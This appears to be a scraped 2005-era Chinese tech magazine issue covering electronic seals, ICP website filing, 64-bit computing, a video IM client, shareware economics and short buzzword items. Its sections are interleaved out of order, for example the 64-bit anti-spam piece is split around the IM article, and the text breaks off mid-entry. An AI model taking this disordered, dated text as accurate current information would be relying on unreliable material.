据了解，电子印章的使用过程看似简单，却蕴含着很高的技术含量。中国电子商务协会政策法律委员会主任杨坚争先生表示，数字签名实现的过程中需要经过多次加密和解密过程，用户基本上可以放心使用。但是他同时指出，不久前，山东大学王小云教授破译了MD5、HAVAL-128、MD4和RIPEMD等四个著名密码算法，从理论上证实电子签名可以被伪造，给电子商务安全敲响了警钟，不过一方面这些理论破解方法需要看似不可能实现的时间去实现，另一方面这些理论破解方法并未触及电子签名的本质要害，因此“电子印章”这种形式仍然是前景光明的。

据记者了解，北京地税局已决定在内部系统率先试用安全电子印章，准备尽快在北京施行完全的网上电子报税。此举被业内视为推动《数字签名法》在京实施的有力措施。



| 签订类型 | 应用场景 |
| :--- | :--- |
| 双方签订合同，可以同时和非同时签约。 | 一般用于买卖合同 |
| 一方签订合同用来给其他人观看。 | 可用于下发文件、指示等信息 |



## 个人网站的“身份证”——非经营性ICP备案登记

记者在很多论坛里也发现不少网友对《非经营性互联网信息服务备案管理办法》议论纷纷。对这些疑虑，记者特意咨询信息产业部相关人士，以解开大家心中的谜团。

随着互联网的普及，网民数量的不断增加，网站数量也达70万左右，其中个人网站占了很大的比重。以前，我国对经营性网站管理较多，对非经营性网站一直比较宽松。2005年3月20日起正式施行的《非经营性互联网信息服务备案管理办法》（全文见http://www.intodigi.com/Salon/Policy/7309.html），第一次对非经营性网站提供互联网信息服务做出明确的规定。

所谓ICP/IP地址信息备案，就是使用“ICP/IP地址信息备案管理系统”对全国所有的经营性的ICP进行网上审批，对非经营性的ICP实行网上备案，生成全国统一的网站信息库和IP地址库，可实现对载有信息网站的快速定位。

### 个人网站由信息产业部统一管理

以前，全国各省、自治区、直辖市通信管理局也要求非经营性网站备案，那个时候是发放纸质的非经营性互联网信息服务业务备案证（见图1）或非经营性网站备案登记表（见图2）。现在这个程序改变了一下，非经营性网站通过信息产业部的ICP/IP地址信息备案管理系统http://www.miibeian.gov.cn网上申报、网上备案，不再颁发纸质的备案书了。
相信大家在前几年还发现http://www.hd315.gov.cn可以为北京以及北京以外的区域的经营性网站和非经营性网站办理备案登记，如果备案通过的话，即可在网站首页的下方放置大家熟悉的工商红盾的电子标识（见图3），并链接至http://www.hd315.gov.cn/beian/view.asp?bianhao=xxxxxxxxxxxxxxxx（xxxxxxxxxxxxxxxx是网站注册标号）。而在《非经营性互联网信息服务管理办法》出台后，北京市工商行政管理局马上发布公告，当中称北京市工商行政管理局不再受理非经营性网站办理网站名称注册的申请，也不再受理北京以外地区网站所有者办理经营性网站备案登记和网站名称注册的申请。这就意味着，北京市工商行政管理局没有受理非经营性网站备案登记的权限，之前在http://www.hd315.gov.cn办理非经营性备案登记的网站也就无效，应重新在http://www.miibeian.gov.cn备案登记，获得新的备案号后，以前的备案号不生效。

以前最低10万元注册资金，就可以开办互联网信息服务的公司，现在各省、自治区、直辖市的工商行政管理局和通信管理局将此门槛提高到100万元（互联网信息服务属于前置审批项目，必须先取得互联网信息服务增值电信服务业务经营许可证，才能办理企业法人营业执照），一些小型的电子商务网站和提供广告服务等经营性网站只能违法经营或者超出备案的项目进行经营。
记者找到某电子商务网站，发现在页脚的版权信息上标注“北京××商城电子商务有限公司”，没有放置任何互联网信息服务增值电信服务业务经营许可证的电子标识（见图5），而企业营业执照认证网络版上却标注为“北京××时代软件科技有限公司”，且经营范围仅为“法律、法规禁止的，不得经营；应经审批的，未获审批前不得经营；法律、法规未规定审批的，企业自主选择经营项目，开展经营活动。”，当中并没有“互联网信息服务或因特网信息服务”项目（见图6）。

### 个人网站如何备案

很多个人网站的站长都有这样的心态，反正网站没有进行商业行为，所以无所谓要不要备案。《非经营性互联网信息服务备案管理办法》实施后，网站若违反相关规定，未履行备案手续，擅自从事非经营性互联网信息服务，或者超出备案的项目提供服务，将被责令限期改正；拒不改正的，将被责令关闭。
据了解，非经营性互联网信息服务是指通过互联网向互联网用户无偿提供具有公开性、共享性信息的服务活动。不管你个人网站、个人相册，还是个人Blog，只要这个网站具有独立域名或者独立IP地址，就必须进行非经营性网站备案登记。目前备案完全免费的，手续也很简便，不会给站长带来太多的麻烦。

### 备案流程

第一步：登录http://www.miibeian.gov.cn网站（见图4），点击“注册”按钮，进行ICP用户注册，再根据系统要求填写注册信息，点击“提交”按钮。
第二步：获得手机和邮件验证码后，再次登录系统，输入手机和邮件验证码，通过验证后进入系统功能主页面。
第三步：在任务列表中选择“ICP备案信息采集→添加”，根据系统提示分别进行备案主体信息、备案网站信息的录入，检查无误后提交备案信息。
第四步：等待通信管理局或电信管理局对备案信息进行了审核。
第五步：审核成功后，会向你注册时填写的电子邮箱发送确认信（附件含bazs.cert备案证书）。请将备案证书文件bazs.cert放到网站的cert/目录下。该文件必须可以通过下列地址http://网站域名/cert/bazs.cert访问，其中网站域名指的是网站的Internet域名。将备案号显示在网站首页的醒目位置，并将超链接指向http://www.miibeian.gov.cn。

### 谨防虚假ICP证的网站

在北京工商行政管理局已办理网站备案登记的网站所有者（包括北京地区和北京以外地区），如尚未取得互联网信息服务增值电信服务业务经营许可证，或已取得许可证但未办理有关企业登记并获得“互联网信息服务”经营范围的，必须在一个月内到当地通信管理局、工商行政管理局补办上述手续。

后来，记者分别在http://www.baic.gov.cn/internet/notice/bulletin.asp（见图7）和http://www.miibeian.gov.cn/share/cx_dwfl_daimabiao.jsp?id=3（见图8）均没有查到此网站的ICP备案记录，以及上述提到两家公司的任何资料。接着，记者在北京市工商行政管理局相关人员的指引下，通过http://qyxy.baic.gov.cn/查询企业信用，也仅查到“北京××时代软件科技有限公司”的信息，而“北京××商城电子商务有限公司”的信息却没有查到。由此可见，“北京××商城电子商务有限公司”套用的是“北京××时代软件科技有限公司”的企业法人营业执照。
所以，这里要提醒大家注意，在网上购物需查明此网站是否合法。否则如果购买商品后出现一些纠纷，一旦此网站的创办者人去楼空，追查起来非常麻烦。
（本刊记者 王睿晖）

















## 32位后劲仍足 64位只欠东风？

电脑核心从32位到64位的转变正在悄然进行中，比起行业应用的如火如荼，普通消费者却迟迟不能提起兴趣，就连专家也表示64位取代32位的时代还为时尚早。但以应用带动消费的时代似乎已经过去，有人说，消费者认可64位并不是因为需要，那是因为什么呢？

从某种意义上讲，处理器的发展直接影响着整个IT行业的发展水平，电脑核心从16位到32位的转变对IT行业产生的巨大影响就是一个强有力的证明。最先引入64位处理器AMD正在全力以赴地推广64位计算技术在全行业的应用，然而这场革命起初因为缺少Intel这个主角似乎有些进行不下去了，因为消费者在观望，他们担心过早地选择64位会为它的早产付出高额代价，但同时，他们更加担心会成为时代更替的牺牲者。现如今，AMD的主动“推”和Intel的“附和”，让消费者陷入了两难境地。智者开始考虑这样一个问题，现在到底该不该迈进64位计算技术的新纪元呢？

在AMD的努力下，64位处理器已经从高端商务应用走进寻常百姓家，Intel再也不能无动于衷了。消费者需要了解哪些64位的基本知识？

### 64位在逼近 你做好准备了吗？

我们通常说的64位技术是相对于32位而言的，这个位数指的是CPU GPRs（General-Purpose Registers， 通用寄存器）的数据宽度为64位，64位指令集就是运行64位数据的指令，也就是说处理器一次可以运行64位数据。

从32位到64位，表面上好像只是CPU字长增大了一倍，实际上它使寻址范围、最大内存容量、数据传输和处理速度、数值精度等指标也成倍增加，带来的结果就是CPU的处理能力得到大幅提升，尤其是对强烈依赖数值运算、存在巨量数据吞吐和需要超大并发处理的应用提升效果非常明显，如科学计算、人工智能、平面设计、视频处理、3D动画和游戏、数据库以及各种网络服务器等。

目前主流CPU使用的64位技术主要有AMD公司的AMD64位技术、Intel公司的EM64T技术、和Intel公司的IA-64技术。其中IA-64是Intel独立开发，不兼容32位计算机，仅用于Itanium（安腾）以及后续产品Itanium 2，人们习惯性地称它为“纯64位技术”。



64位计算技术从2003年推出至今，其产品线不断丰富。目前，AMD方面支持64位技术的CPU有Athlon 64系列、Athlon FX系列和Opteron系列。Intel方面支持64位技术的CPU有使用Nocona核心的Xeon系列、使用Prescott 2M核心的Pentium 4 6系列和使用Prescott 2M核心的Pentium 4 EE系列。

从目前市场表现看，“低价优质”显然是采用64位台式电脑最抢眼的优势，但比起10年前处理器从16位到32位的过渡所引起的IT行业的连锁反应，32位到64位的过渡显得如此平淡无奇。既然价格已经不是问题，消费者持币待购又在等待什么呢？

来自64位反垃圾邮件系统的应用告诉我们，64位计算技术带来的不仅仅是效率的提高，更是安全性、稳定性等各方面的全面提升。

### 来自64位反垃圾邮件系统的启示

天天和电子邮件打交道的人都会有这样的体会：每天处理邮件时，总会人工过滤大量垃圾邮件，即使开启邮件客户端所有的反垃圾邮件过滤功能，也需要人为分拣一些过滤不掉的垃圾邮件，你是否计算过处理垃圾邮件占用了你多少时间呢？

## 她来了 “真视频” 沟通时代还远吗？

互联网企业无时无刻不在寻找新商机，因为他们知道，2004年短信浪潮即将画上句号。于是，2005年，他们纷纷把目光投向了即时通讯软件（IM）。一时间，腾讯QQ突围上市，TOM Skype挑战传统话音业务等消息让IM一度成为媒体的宠儿。在镁光灯背后，我们注意到，263网络集团收购视频聊天软件ET66后，一款以“真视频”为卖点的IM——e话通，正以每日新增15万～20万用户的步伐飞速壮大。她的出现真的意味着“真视频”沟通时代的到来吗？

### 她曾是IM中的“草根阶层”

互联网上本来应该是英雄不问出处，2004年底IM业界排名把“草根”打了一闷棍。263人无法理解的是，当时拥有近2500万用户规模的e话通居然进入不了排名的前十，而不到一千万用户的后起之秀却赫然在列。这让那些关注IM的人不仅要问，e话通怎么了？

一位知情人士透露，e话通出身“草根阶层”直接影响了其市场表现。该软件开发设计者是半路出家的业余选手。而该产品诞生的起因也很简单，此君某日同时与3个网友狂聊之余突发奇想，认为时值宽带市场如火如荼之际，现有IM没有充分利用带宽优势，网民迫切需要一种更直接、更真实的沟通手段——语音视频。当时看似“前卫”的设计理念并没有得到用户的认可。

国内某知名即时通讯软件负责人介绍说，来自“草根阶层”的e话通被一个更像传统通信运营商的263网络集团收购后，并未像大多数互联网企业一样大张旗鼓地宣传，和其他IM比嗓门儿，也是造成她一时间市场表现平平的重要原因。也许是263把更多的精力放在了视频技术的优化及后台的稳定性上吧，以通信产品的运营标准操作e话通，让用户对e话通的理解五花八门，有说视频聊天室，有说视频社区，就是没人说她是IM。

### 她可能引领“真视频”沟通潮流

现如今，IM市场格局已有所不同。中国宽带网络正以令全球业界惊讶的速度发展。第十四次CNNIC（中国互联网络信息中心）调查结果显示，在我国8700万网民中，宽带方式上网的数量为3110万，比去年同期增长217.3%。随着宽带进一步普及，用户上网条件进一步优化，传统文字、语音沟通已经远远不能满足用户的网络沟通需求。

QQ立足文字，在交流方式的多样性上做足了文章；Skype立足语音，在国外普遍实现了PC到电话的过渡，并大有冲击传统电信行业的势头；e话通呢？

经过了半年的整顿和系统调整，263正在促使她向新的方向过渡——真视频。从去年年底投放市场至今短短半年的时间，e话通确实取得了突飞猛进的发展，注册用户已经超过了4000万，每天10～20万的增长速度让业界感到惊奇。在视频应用尚在推广时，她的付费会议室已经拥有数十万付费用户。

技术升级有可能让她引领视频沟通潮流。记者从263网络集团了解到，定向式服务技术保障了最清晰视频的传输，认可e话通的用户很多是在进行远程教育、远程会议、电子商务等应用的小型企业，他们利用这个平台创造着自己的价值。定位于宽带互联网使用的视频即时通讯产品已经显现出它强大的生命力。

### 为了她 几家欢喜几家愁

263网络通信的总裁黄明生对记者说：“视频是未来3G时代通信市场的标准化应用。基于宽带用户的规模的扩大和公网带宽的提升，视频即时通讯将真正成为时时沟通的重要工具，而以视频为核心的多媒体应用将改变人类的生活，为用户提供了更生动的产品和更多的选择，是对虚拟社会增值的一种改进，因此能赢得用户的认同。”



宽带时代给即时通讯行业带来了新的发展生机，它一方面给新生的企业提供了宽广的生存空间，另一方面也对传统的即时通讯企业带来了新的要求。QQ在稳定文本功能的基础上进一步完善了视频的功能，MSN虽然没有忽视这个问题，但要想在非常成熟的老版本的基础上做太大的革新也是不容易实现的。但传统的IM产品面临的已经不是技术革新，而是模式之争。不论IM新旧势力的最终格局如何，作为用户，我们都将更容易享受到视频沟通带来的无穷乐趣。

#### 小提示

##### “e话通”何许人也？

263网络集团推出的e话通是一款集文字、语音、视频、数据为一体的互联网多媒体即时通讯产品。她的最大特点在于，具备特有的防火墙穿透技术，能够提供“多媒体即时通讯”功能，可以实现多人（双人、多人）多媒体（文本、音频、视频、数据）的自由沟通交流。此外，她还整合了263邮件、短信等各类通讯服务功能，并同时向用户提供可以容纳10人/30人/100人的多媒体会议室，成为一个完整的通讯终端平台。需要尝鲜的朋友可通过这个地址下载：http://download1.et66.com/eph380.EXE。

（本刊实习记者 张健）

曙光4000A高性能计算机是由中科院计算所、曙光公司和上海超级计算中心共同研制的64位高性能计算机。它于2004年6月在全球高性能计算机排行榜上位列第十，使中国成为继美国、日本之后，第三个能制造10万亿次商品化高性能计算机的国家之一。作为中国国家网格最大的主节点，曙光4000A于2004年11月25日在上海超级计算中心正式启用，为气象、环保、建筑等多个领域的用户提供高性能计算服务。

国内知名的邮件系统供应商三五互联的副总经理吕联苇先生给记者算了一笔账：如果一个企业有100名员工，每人每天收到100封垃圾邮件，那么企业每天收到的垃圾邮件总数就是1万封。如果一封邮件的平均处理时间为7秒，一天就需要19.4小时，这将占据2名专职处理垃圾邮件员工的全部工作时间，这还不包括处理邮件传播病毒所占用的时间。假如企业应用了当时最完善的32位处理系统，情况是否会好一些呢？

三五互联实验室的工程师当场为记者演示了32位和64位系统处理垃圾邮件的不同效果。整个测试过程中，64位服务器投递了26277封邮件（总量为2.05GB），32位服务器投递了26086封（总量为2.05GB），服务器处理邮件队列的缓存极限为1.9G。通过特殊算法计算，可以得到如下表格：

|          | 开始投递邮件时间(A) | 完成邮件队列处理时间(B) | 邮件队列被清空的时间(C) |
|----------|---------------------|-------------------------|-------------------------|
| 64位服务器 | 01:37:18            | 01:40:47（耗时3分钟19秒）  | 02:10:00（耗时29分钟13秒） |
| 32位服务器 | 16:49:17            | 17:21:32（耗时32分钟15秒） | 18:58:22（耗时96分钟50秒） |

一组权威数据表明，垃圾邮件占据全球电子邮件的比例从2003年底的35%增长到2004年的85%。美国著名网络安全及垃圾邮件研究机构Radicati Group的报告显示，到2008年，欧洲的电子垃圾邮件量将增长到71%，每年以54%的速度增长。面对洪水猛兽般的垃圾邮件，讲求执行效率的企业还会犹豫是否将自己的服务器升级到64位吗？

当然，反垃圾邮件系统也许只是64位计算技术的一个边缘应用，但它的出现确实让普通消费者看到了64位应用的巨大潜力。不过这毕竟是一个看似和消费层面无关紧要的行业应用，他们可能会认可64位的企业级应用，那么企业级的64位应用会刺激终端消费吗？处理器设计专家给出了一个看似和市场背道而驰的结论。

行业应用如火如荼，消费者更关心什么时候自己才能用上64位计算技术，但专家的说法也许会让你大失所望。

## 专家：64位桌面应用不急需

中国科学院计算所“龙芯”课题组负责人胡伟武，是国内芯片制造领域的专家。他在接受记者采访时说，64位计算技术迟迟不能普及的根本原因是，桌面级应用对64位技术的依赖并不是非常迫切。他进一步解释说，在国内，我们更需要的是一定价格下的高性能，而不是盲目追求没有必要的应用扩展。

10年前，计算机历史上曾发生过一次重大变革——多媒体技术唤起了人们对32位电脑的渴望。那些想让电脑屏幕鲜艳起来、让电脑奏出美妙音乐、让电脑能与人交流的人发现，自己破旧的16位286电脑再也无法满足最基本的需求了，于是业内孕育并上演了32位电脑“夺权篡位”的一幕。也许那一幕连最初开发MS-DOS的比尔·盖茨都没有想到，否则他也不会认为电脑只要有640KB内存就够了。

10年后，人们还没有充分享受到32位处理器的高性能，因为32位处理器理论上可以支持高达4GB的内存，也因为32位会带来较小的延迟和更高的处理器频率。胡伟武教授解释说：“实际上，目前推动64位技术应用的并不是桌面机应用，这一点无论是将64位平民化的AMD，还是曲高和寡的Intel都很清楚，行业级应用才是64位这个锋利武器的用武之地啊！”

一位资深的硬件评测专家断言，如果说32位取代16位确实是应用在驱动，那么64位取代32位更像是厂商炒作的噱头。普通用户一定会产生这样的疑问，专家都如此断言，我们还需要犹豫吗？

64位硬件平台完全具备了，Windows XP Professional x64版的出现让消费者看到了升级的希望。也许你还在质疑64位软件平台还没有完全就位，但资深软件工程师有不同的观点。

## 64位万事具备 只欠东风？

采访中，记者发现，为数不少的专家在谈到64位应用是否能普及时，总有这样的担心：64位硬件平台具备了，软件还远远跟不上，程序员编译大量的32位程序仍需时日。甚至有网上评论称，微软新版本的Windows XP Professional x64版只不过是简单地将32位程序编译成为了64位，而未发挥64位本身优势。

资深的系统分析员陈工程师有将近6年的大型软件开发经验。据他分析，已面市的64位开发工具主要有SUN的64位JAVA、Apple的Xcode 2和一些64位Linux自带的C/C++编译器，其中名头最响的自然非64位JAVA莫属。虽然JAVA优异的跨平台性能有目共睹，但客观地说，JAVA目前还难以担起各大系统主要开发工具的重任，特别是在Windows平台，微软的Visual Studio .Net和Borland的64位开发工具才是普通开发者最企盼的。

理论上说，基于.Net的开发工具都可以进行64位软件开发，但仅有这点是不够的，包含所有64位开发元素的开发环境才是真正意义上的64位“掘进机”。如果只是搭好一个架子，里面没有丰富的64位构件，那么其用处也只能算聊胜于无，除非你是一位对系统底层开发兴趣盎然的人。据称微软即将推出的Visual Studio .Net 2005开发工具对64位软件的开发有了更好支持，能快速开发出支持AMD的X86-64和Intel的EM64T指令集的应用软件。

虽然Intel和AMD的桌面64位CPU都能支持32位代码，但这未免有些大材小用，而且它对32位软件性能的提升很小，运行某些软件甚至不升反降。因此，要真正进入64位的广阔天地，必须使用“纯”64位软件，即完全使用64位扩展指令集，不用或少用32位代码。除了部分新开发的软件外，大多数32位软件都要进行移植或升级才行。由于64位CPU只是扩展了32位指令，并不像32位CPU那样对16位指令进行了全新改造，还增加了新的工作模式，因此32位向64位的移植将较为容易，至少不会遇到当年16位向32位过渡时源代码必须作大规模修改的麻烦。

据传IBM的大型数据库DB2只花了两天时间便完成了向64位的过渡，虽然消息可信度不高，但从中不难看出64位升级之路并非荆棘遍地。除涉及系统底层的软件，如杀毒软件、系统工具软件、驱动程序，以及各种嵌有汇编代码或直接面向硬件的软件需要针对64位的特点重新编写外，其他应用软件的移植将可能较易和较快地完成，除非开发者打算为64位作特别优化而自愿将整个软件重写。

那些基于JAVA或.NET框架的软件在升级到64位时更是占尽便宜，基本上不用动源代码就能跑步进入64位殿堂。只要它们的虚拟机或中间编译器支持64位代码，其上层的应用程序即可很好地运行在64位环境中，这也是JAVA等比C++之类优越的地方。

“到目前为止，各种阻碍64位系统推广的不利因素都在各方的努力下一一化解于无形，IT已走到了64位的门槛前，虽然32位仍占主流，但易帜于64位只是早晚的事。”陈工程师断言道。

已经有公司准备抓住这个机会了。博科资讯集团副总裁付勇认为，64位技术在2003年会由小范围应用转为广泛应用，将有更多的企业信息化系统向64位应用迁移。尤其是2003年发布的SQL Server 2000（64位）企业级数据库，另外AMD发布的64位Opteron服务器，这二者都将大幅降低64位平台的总体成本。过去阻碍企业向64位应用迁移的高昂价格因素将不复存在。如果64位平台的成本大幅下降，向64位平台迁移的用户会增加很多。

- 升级 Windows XP x64 理由 TOP 5
1. 如果你追求高性能，64位应用程序可以在每个时钟周期内传递更多数据，这样程序运行速度更快、效率更高。
2. 如果你想不被程序频繁读取硬盘缓存数据的嗒嗒声打扰，64位Windows将普遍支持多达128GB的内存和16TB的虚拟内存，更多数据预先加载到虚拟内存中，64位处理器当然能够快速访问。
3. 如果你留恋32位软件，Windows 64（WOW64）x86仿真层帮你轻松应对大多数32位应用软件。
4. 如果你很发烧，它支持多达两个单独或多核心x64处理器，只有资金到位，最高性能不是梦想。
5. 如果你酷爱编程，你会惊奇地发现该环境与32位Windows开发环境几乎是完全相同的。

经过调查，我们认为64位计算技术即将大放异彩，缘于AMD和Intel产品战略的转移。他们新的平台战略将最终让64位走进普通消费者的生活。

## 记者观察：平台战略最终推动64位应用普及

64位取代32位之役是一场大仗、一场硬仗。与其说是企业和个人对64位计算技术的认知需要扩展，不如说是要看两家处理器制造厂商对64位计算技术的推广力度是否到位。

AMD虽抢先推出了64位的处理器，却在将近两年的时间里未能及时把握市场动态，只是意味地将自己的处理器放在“处理器层面”参与市场推广活动，台子让系统厂商帮他上演一出又一出大戏，他所讲求的平台则更侧重于企业间的联动效应。而Intel则更善于扮演操盘手的角色，渐渐淡出“处理器层面”的竞争，大有将自己“无限”的精力放在平台战略上放手一搏的感觉。众所周知，在狂砸了数亿美元进行市场推广后，Intel的迅驰平台在两年内迅速成为笔记本市场的绝对主流，同时也成为了“超长待机”和“无线上网”的代名词。今年1月19日，被称为“第二代迅驰”的Sonoma平台也闪亮登场，将笔记本市场引入了一个新领域。与原计划相比，Sonoma其实是姗姗来迟的，但Sonoma没有因此受到任何批评，反倒被很多人认为是“时机未到”，因为今天第一代迅驰平台强大的市场拉力还丝毫没有减弱的迹象。Intel显然是尝到了品牌战略成功的甜头，于是近日又计划将迅驰的成功经验应用于桌面计算机。

图片所示为64位Intel P4 6系列处理器，按照Intel的计划，采用64位计算技术的5系列处理器也将于本月面市。

图片所示为32位和64位游戏平台相同场景效果对比图，可以看出64位游戏界面图形表现更加细腻和服务领域。

## Windows XP x64 为何姗姗来迟？

Intel在作怪？“Wintel联盟”是很容易想到的一个原因，不过我们很难说Intel在其中发挥了什么样的作用。驱动跟不上？驱动是任何一个操作系统的组成部分，适当的驱动优化和移植需要很长时间才能完成。微软的64位Windows XP可以同时运行32位和64位应用程序，驱动则必须是原生64位编写的。微软追求完美？由于64位Windows迟迟没有，微软也看到了不少客户为了早日用上X86-64位技术而转向了Linux平台，这肯定是他们不愿意见到的。不过为了保证新操作系统的完美，微软确实花了很长时间。

## 金山、瑞星抢着支持64位Windows

国内著名软件公司金山4月14日对外界透露，金山毒霸2005版本将率先支持Windows XP的64位版。吸引记者注意的并不是金山毒霸质量本身，也不是其开展的免费体验活动，而是金山宣称“这是全球第一款64位的中文单机版杀毒软件”。关心杀毒行业的人会发现，早在今年3月底，瑞星就已经宣称，全球第一款支持微软64位中文操作系统的杀毒软件在瑞星公司开发完毕，并通过微软中国技术中心的测试。金山和瑞星相互矛盾的说法的确让人疑惑。躲在“第一”争论背后的，主要还是将来64位操作系统杀毒的巨大市场。

（新闻采访部 张健 特约记者 邹肇辉）

## 原创软件者如何生财有道？

网友横扫一片酷爱尝试各种软件，也为不少杂志社撰写软件应用类文章，和各类软件打交道多了，便发现了开发者的一些问题。向共享软件开发者付费后，却享受不到开发者承诺的各种服务，这使得非常有责任心的他越来越担心国内原创软件业的前途渺茫。

### 不用共享软件有原因

网友横扫一片的担心不无道理。目前，中国原创软件一般以共享软件和免费软件的形式进入市场。相比免费软件，共享软件显得更加完善，可以说具备了一切商业软件的特性。中国共享软件注册中心这样给共享软件下了定义：共享软件是以“先使用后付费”的方式销售的享有版权的软件。用户可以从各种渠道免费得到它的拷贝，也可以自由传播它。用户总是可以先使用或试用共享软件，认为满意后再向作者付费；如果认为它不值得你花钱买，可以将其卸载得一干二净。从字面上可理解，共享软件和商业软件相比，只是付费方式不同，实际上正是这些差异带来了用户体验级的巨大反差。网友横扫一片在网上选择下载了一款信息收集类的共享软件，在经过一段时间试用后，他决定向软件开发者付费。由于该软件的核心是一个定时更新的数据库，他寄希望于得到授权后，享受数据库的更新服务。不料，付费后的一个多月里，不仅没有得到任何开发者承诺的服务，更是连开发者本人也联系不上了。他尝试着用另外一个QQ号码以新用户购买软件为由联系开发者，竟再次得到开发者的热情服务。据了解，目前国内开发者不能履行服务承诺的事件屡有发生，要么用户付费后不能享受升级服务，要么软件的微小改动也要让用户重新掏腰包，更有甚者，开发者为了让自己的软件更广泛地流传，自己将注册方法在网上公布于众，白白浪费用户的血汗钱。

### 免费了 就真的好了吗？

与共享软件开发者积极追求商业利益相比，免费软件开发者显得格外大公无私。那么，用户使用免费软件是否就能高枕无忧了呢？记者随机下载了几个免费软件，一般为某流行软件的汉化包或辅助程序，安装完毕后发现系统托盘上被自动安装了上网助手、中文邮等许多与该汉化程序毫无关系的小软件。稍有经验的网友都会知道，在浏览网页时，我们经常会遇到弹出窗口（图片），这些窗口多为某种插件或者软件提示安装程序，稍有不慎，就会被安装一些不常用的软件。对于经验丰富的网民来说，屏蔽插件轻而易举，但对于一般网民而言，中招概率非常高。

### 要解决问题 待商业模式

除了有正式职业的程序员外，大多数想靠原创软件生存的程序员都有“我做原创软件做到破产”的感慨。据专家保守估计，中国的程序员每天都会在互联网上发布20～30个原创软件，但很大一部分并不能在大的软件下载网站中及时更新，就是被网民广泛应用的原创软件，制作者也不会得到任何回报。中国软件行业协会秘书长胡昆山不无担心地告诉记者，尽管中国软件业发展已经有了很长时间，但中国原创软件发展现状并不乐观，很多程序员最后都只给国外网民写共享软件，因为只有这样才能拿到注册费。3721公司起家靠的就是一个免费的网络实名软件，3721之所以能成功，总裁周鸿祎归因于3721公司在网络实名领域建立了自己的商业模式。周鸿祎分析，美国程序员将软件转化为商业产品的机率之所以高，是因为“当他做出一个好的原创软件时，他能找到非常好的职业经理人团队”。假如一款优秀的共享软件很快得到商业推广，软件作者是否还会靠泄露注册码来推广自己的产品呢？假如一款实用的免费软件被市场认可后，很快得到某种商业回报，软件作者是否还会捆绑一些影响网民上网体验的软件呢？

小知识：Download.com封杀内藏广告程序的软件
最近全球最大的下载网站—CNET Download.com表示，他们的编辑使用Lavasoft Ad-Aware、Webroot Spy Sweeper和PC-Tools Spyware Doctor对递交到CNET Download.com发表的新软件进行扫描，如果发现其中包含广告间谍软件，将会严格拒绝收入共网站。

软件开发者为什么将无关软件嵌入安装程序？他们去选择嵌入的程序是有目的的吗？

据国内某汉化软件作者透露，捆绑小软件是他们盈利的重点。在残酷的商业竞争当中，他们的做法也是逼不得已，因为实在没有其他方法让他们收到费用。归根结底，还是一个原创软件能否找到一种成功的商业模式。

（新闻采访部 张健）

## 热词

**网银大盗**
造一张假银行卡，从ATM上取走大量现金已经不是什么新鲜事。可最近，网上出现了多个假冒的工商银行、农业银行网站，甚至有银联门户。原来，这是一些不法分子制作的假冒银行网站，骗你取款卡上的账户和密码。经证实为假冒网站后，公安部门于7小时内关闭了这些网站，并立案寻找“网银大盗”。

**反华游戏**
近日，京城玩家为一款名为《命令与征服3——将军》的电脑游戏气愤不已。原来，游戏中出现恐怖分子袭击天安门的情节。据悉，游戏中含有危害中国主权和领土完整的内容，严重违反了我国的法律法规，“反华游戏”遭到我国游戏玩家的强烈抗议。

**博客**
近日，“博客”（BLOG）一词被CNN科技频道评选为2004年的10大热门词汇之一。一个BLOG就是一个网页，它通常是由简短而且经常更新的帖子所构成。这些张贴的文章都按照年份和日期排列。由于沟通方式比电子邮件、讨论群组更简单和容易，它已成为家庭、公司、部门和团队之间越来越盛行的沟通工具。

**十大病毒**
日前，国内著名计算机反病毒厂商江民科技根据病毒造成的损失大小、病毒发作的频次及潜在危害等特征，综合了用户病毒上报数据以及江民病毒预警系统数据，发布了2004年度十大病毒排行。2004年的“毒王”宝座最终被“震荡波”病毒夺得。

**移动计算年**
英特尔在1月4日表示：2005年是中国的农历鸡年，而从技术的角度讲，今年或许将成为“移动计算年”。本着这一理念；英特尔提出了十大移动心愿：成为无线赢家、让家庭娱乐移动起来、携带笔记本电脑轻松度假等。

**Turion**
1月8日，AMD将为其适用于轻薄笔记本电脑的处理器推出一个名为“Turion”的新品牌。“Turion”品牌代表其耗电量在35瓦以下的笔记本电脑处理器，用于与Intel的奔腾M处理器展开直接的竞争。AMD认为，PC厂商喜欢选择使用多家厂商的芯片组和无线芯片以及挑选性价比最高的产品。

**头号公敌**
过去一年，垃圾邮件的数量急剧上升。在出版行业，80%的垃圾邮件在到达邮件服务器之前就已经被过滤掉，但还是有不少漏网之鱼。垃圾邮件名副其实地成为了2005年的“头号公敌”。好消息是，虽然垃圾邮件的数量大幅增加，反垃圾邮件产品的质量也随之提高。

**木制光电鼠标**
光电鼠标在我们生活中已经很常见了，但今天瑞典Swedx推出的一款鼠标却让我们大开眼界。这款鼠标的外壳完全采用了别具一格的木质材料，因为是木头做的，想必手感也不错，用它玩FPS游戏会不会太浪费呢。它全长122mm×65mm×36mm，分辨率高达800dpi。

**刮不坏的DVD盘**
日本TDK公司发明了一种强有力的涂层技术，用它处理过的DVD光盘即使用螺丝刀刮，数据也不会有丝毫损伤，照读不误。而此前Maxell也发布了一种使用强化涂层的防刮、防尘DVD盘片。

**Longhorn**
据著名业内观察家Paul Thurrott称，微软下一代操作系统Longhorn将于明年5月开发完毕并投产，共包括家庭版、媒体中心版、专业版、小企业版及Tablet PC版，还有一个综合版，它囊括了以上五个版本的所有功能，同时微软还会推出初级版，这样一共是7个版本。

**网络赌博**
近日，联众、光通通信、腾讯在内多家网站，均有不同程度涉嫌变相赌博迹象。2004年，网络扫黄成果有目共睹，但忽视了网络赌博带来的恶劣影响。信息产业部态度也十分明确：赌博网站发现一个，关一个。

**新版迅驰**
1月20日，Intel发布代码名为“Sonoma”的新一代“迅驰”处理器，其主要特点是微处理器前端系统总线（FSB）频率由400MHz提高至533MHz；可支持附带DDR2模式的同步DRAM；三维图像处理能力是此前的两倍。

**智能病毒**
“病毒之多，无奇不有。”Cront-A病毒能够很巧妙地将自己伪装在CNN新闻的大旗之下。每次通过邮件传播时，它都会首先读取CNN网站上的头条新闻内容，将其作为病毒邮件标题来发送。

**手势操作手机**
夏普发布了“V603SH”手机。该手机采用了集成3轴地磁传感器和双轴加速度传感器的IC，其特点是通过挥动和倾斜机身即可完成操作。

**全息光存储**
全息记录技术利用激光的干涉原理将数据记录到光盘上。在一块12cm光盘上，使用全息记录技术可以将存储容量提升到1TB，这将是目前DVD标准容量（4.7GB）的200倍。而且在数据传输率方面，也将到达1GB/s，远高于现有的硬盘水平，是目前DVD最高速度（16X，约22MB/s）的40倍。

**打折WinXP**
